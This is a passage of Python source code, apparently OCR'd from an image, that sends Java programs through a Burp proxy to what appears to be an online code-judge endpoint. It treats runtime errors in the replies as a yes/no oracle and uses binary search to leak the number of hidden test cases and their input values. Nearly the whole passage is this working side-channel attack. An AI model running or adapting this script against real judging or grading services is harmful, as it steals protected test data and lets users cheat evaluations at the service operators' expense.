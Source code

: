```python
            String line;
            while ((line = reader.readLine()) != null) {
                lines.add(line);
            }
        } catch (IOException e) {
            System.err.println("An error occurred while reading the file: " + file.getPath());
            e.printStackTrace();
        }
        return lines;
    }
}'''

proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080',
}

def islargerthan_tests(index,number):
    index = str(index)
    number = str(number)
    payload = javatests.replace("FIRST",index).replace("SECOND",number)
    burp0_data = {"code": payload}
    a = requests.post(burp0_url, proxies=proxies,headers=burp0_headers, data=burp0_data)
    if "runtime" in a.text:
        return True
    else:
        return False


def findtests():
    low, high = 1, 500000
    while low <= high:
        mid = (low + high) // 2
        if islargerthan_tests(0,mid):
            low = mid + 1
        else:
            high = mid - 1
    return low

#tests = findtests()
tests=8
print("tests:"+str(tests))
def islargerthan_inputs(line,index,test):
    payload = javainputs.replace("LINE",str(line)).replace("INDEX",str(index)).replace("TEST",str(test))
    burp0_data = {"code": payload}
    a = requests.post(burp0_url, proxies=proxies,headers=burp0_headers, data=burp0_data)
    if "runtime" in a.text:
        return True
    else:
        return False

for i in range(tests):
    low, high = 0, 500000
    while low <= high:
        mid = (low + high) // 2
        if islargerthan_inputs(i+1,0,mid):
            low = mid + 1
        else:
            high = mid - 1
    print("source on line: "+str(i+1)+" is "+str(low))
    low, high = 0, 500000
    while low <= high:
```